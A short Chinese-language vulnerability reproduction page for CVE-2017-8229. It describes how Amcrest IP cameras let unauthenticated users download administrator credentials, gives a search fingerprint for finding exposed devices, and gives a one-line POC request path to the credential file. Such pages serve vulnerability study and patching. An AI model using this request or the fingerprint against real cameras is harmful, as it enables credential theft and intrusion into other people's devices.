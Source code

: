 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

# Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## 网络测绘

```
"Amcrest"
```

## 漏洞复现

登录页面

![image-20220519161504045](/images/202205191616449.png)

POC

```
/current_config/Sha1Account1
```

![image-20220519161546887](/images/202205191616340.png)

